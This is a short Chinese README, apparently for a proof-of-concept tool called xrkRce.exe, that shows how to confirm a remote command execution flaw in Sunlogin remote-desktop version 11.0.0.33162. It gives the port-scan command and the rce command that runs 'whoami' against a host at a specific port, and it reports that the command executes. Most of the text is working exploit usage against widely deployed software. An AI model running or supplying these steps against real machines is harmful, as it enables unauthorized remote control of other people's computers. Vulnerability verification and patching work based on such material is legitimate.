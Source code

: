 向日葵版本：Ver.11.0.0.33162

验证过程（windows11）：

1. 本机安装向日葵后启动软件；  
 ![1](1.jpg)
2. CMD输入命令扫描端口，判断是否可能存在Rce；（ xrkRce.exe -h 192.168.99.38 -t scan -p 1-65535 ）
 ![2](2.jpg)
3. 可能存在会返回端口，如：60029；
 ![3](3.jpg)
4. CMD输入命令（xrkRce.exe -h 192.168.99.38 -t rce -p 60029 -c "whoami"），发现命令执行。
 ![4](4.jpg)

